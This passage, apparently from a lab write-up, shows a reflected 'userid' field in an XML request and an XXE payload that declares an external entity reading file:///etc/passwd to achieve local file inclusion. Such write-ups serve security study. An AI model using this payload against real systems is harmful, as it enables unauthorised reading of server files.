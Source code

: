 The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we can also confirm this (Figure 7).

<figure><img src="../../../.gitbook/assets/xxe_detection.png" alt=""><figcaption><p>Figure 7: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 8).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><img src="../../../.gitbook/assets/xxe_lfi.png" alt=""><figcaption><p>Figure 8: LFI via XXE.</p></figcaption></figure>
